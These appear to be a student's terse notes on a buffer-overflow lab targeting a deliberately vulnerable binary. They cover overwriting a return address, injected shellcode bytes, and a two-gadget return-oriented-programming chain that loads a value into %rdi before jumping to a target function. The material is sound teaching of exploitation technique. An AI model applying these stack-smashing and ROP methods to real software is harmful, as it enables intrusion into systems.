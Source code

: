 objdump to obtain dissambled version of ctarget.
To generate assembly code from the executable, execute `objdump -d ctarget > ctarget.s`.

gdb to step the execution through the last few steps.

touch1 address 4017c0
Modify buf through careful input to change the value of ret address to touch1.
buffer size 0x28, 40 bytes.
`./hex2raw < probehex.txt > proberaw`
`./ctarget -q < probraw`


0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3                      ret 

buffer head: rsp = 0x000000005561dc78
Let getbuf return to the beginning of the buf. Execute the code here.
Place the string at the beginning of the stack of the function test.
rsp = 0x5561dca8

jump to a location where it has the byte pattern resembling
```asm
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```

find multiple places before c3 ret that executes the correct instructions.

```asm
00000000004019a0 <addval_273>:

4019a0: 8d 87 48 89 c7 c3 lea -0x3c3876b8(%rdi),%eax

4019a6: c3
```

move eax to edi. now try to find pop to eax

```asm
00000000004019ca <getval_280>:

4019ca: b8 29 58 90 c3 mov $0xc3905829,%eax

4019cf: c3
```
pop to rax

First gadget 0x4019ca + 2 = 0x4019cc
After returned to this gadget, rsp should point to what I need in eax and edi
fa 97 b9 59
popq, so it should be a quad word
fa 97 b9 59 00 00 00 00
Now eax contains what I need in edi
Next gadget 0x4019a0 + 3 = 0x4019a3
Now edi has what I need
rsp should point to touch2 0x4017ec
go

be mindful of the order of the stack!!! it is top down!!!
